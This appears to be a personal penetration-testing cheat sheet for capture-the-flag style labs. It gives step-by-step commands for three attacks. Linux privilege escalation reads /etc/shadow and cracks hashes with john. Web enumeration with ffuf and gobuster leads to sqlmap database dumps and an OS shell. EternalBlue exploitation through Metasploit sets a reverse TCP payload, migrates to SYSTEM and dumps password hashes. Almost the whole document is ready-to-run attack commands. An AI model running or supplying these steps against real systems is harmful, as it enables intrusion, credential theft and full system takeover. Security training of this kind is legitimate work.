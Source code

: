```
>sudo -l
Check https://gtfobins.github.io/ to see how to escalate inlux
>cat /etc/passwd
Copy contents to new file
>cat /etc/shadow
Copy contents to new file
>unshadow passwd.txt shadow.txt >hashes.txt
>john hashes.txt -w=/usr/share/wordlists/rockyou.txt
Get password
>su root
>cd /root
>ls
```

# SQLMAP
```
Check for robots.txt
Fuzz the server for pages
>ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.143.169/FUZZ -mc all -c -fc 404 -e .php,.html,.txt
>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php -u http://10.10.10.10
>
Once found find a page with SQL query
Intercept request in Burp and copy to file (sqlmap-request.txt)
>sqlmap -r sqlmap-request.txt --dbs
>sqlmap -r sqlmap-request.txt --tables 
>sqlmap -r sqlmap-request.txt -D blood -T flag --dump
>sqlmap -r sqlmap-request.txt -D blood -T users --dump
>sqlmap -r sqlmap-request.txt --os-shell
>sqlmap -r sqlmap-request.txt --a
```
OR
```

```

# Eternal Blue
```
>nmap -sS -sC -A -p- -Pn 10.10.126.131
>nmap -sT 10.10.126.131
>sudo nmap –script vuln {targetIP}
Start metasploit
>>search ms17-010 (from --script vuln)
>>use exploit/windows/smb/ms17_010_eternalblue
>>options
>>set RHOSTS {targetIP}
>>set LHOST (ifconfig IP)
>>set payload windows/x64/shell/reverse_tcp
>>exploit
CTRL+Z to background session
>>use post/multi/manage/shell_to_meterpreter
>>set LHOST 10.9.238.129
>>set SESSION 1 (from >sessions)
>>exploit 
>>sessions -i 1 (to switch back to the upgraded session)
>>>ps
migrate to a process running as  NT AUTHORITY\SYSTEM
>>>migrate XXX
>>>hashdump
>>>copy hash and paste to txt file, save.
>>>open terminal where saves
```